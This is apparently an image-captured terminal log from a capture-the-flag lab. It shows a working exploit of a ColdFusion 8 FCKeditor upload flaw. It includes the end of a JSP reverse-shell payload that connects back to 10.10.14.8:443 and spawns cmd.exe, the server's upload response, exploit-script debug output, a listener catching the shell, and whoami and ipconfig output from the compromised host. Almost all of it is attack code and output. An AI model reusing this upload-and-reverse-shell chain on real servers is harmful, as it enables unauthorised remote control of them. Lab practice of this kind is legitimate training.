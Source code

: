 ```shell
  ShellPath = new String("cmd.exe");
}

    Socket socket = new Socket( "10.10.14.8", 443 );
    Process process = Runtime.getRuntime().exec( ShellPath );
    ( new StreamConnector( process.getInputStream(), socket.getOutputStream() ) ).start();
    ( new StreamConnector( socket.getInputStream(), process.getOutputStream() ) ).start();
  } catch( Exception e ) {}
%>

--e2921372af2d435ab7839c8c1c22ad5a--


Sending request and printing response...


		<script type="text/javascript">
			window.parent.OnUploadCompleted( 0, "/userfiles/file/a8b0f6c3f98a496f816e77c8c98d81f2.jsp/a8b0f6c3f98a496f816e77c8c98d81f2.txt", "a8b0f6c3f98a496f816e77c8c98d81f2.txt", "0" );
		</script>
	

Printing some information for debugging...
lhost: 10.10.14.8
lport: 443
rhost: 10.10.10.11
rport: 8500
payload: a8b0f6c3f98a496f816e77c8c98d81f2.jsp

Deleting the payload...

Listening for connection...

Executing the payload...
listening on [any] 443 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.11] 49324
[...]
C:\ColdFusion8\runtime\bin>whoami && ipconfig /all
arctic\tolis

Windows IP Configuration

   Host Name . . . . . . . . . . . . : arctic
   Primary Dns Suffix  . . . . . . . : 
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No

Ethernet adapter Local Area Connection:

   Connection-specific DNS Suffix  . : 
   Description . . . . . . . . . . . : Intel(R) PRO/1000 MT Network Connection
   Physical Address. . . . . . . . . : 00-50-56-B9-F5-5E
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   IPv4 Address. . . . . . . . . . . : 10.10.10.11(Preferred) 
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.10.10.2
   DNS Servers . . . . . . . . . . . : 10.10.10.2
[...]
```
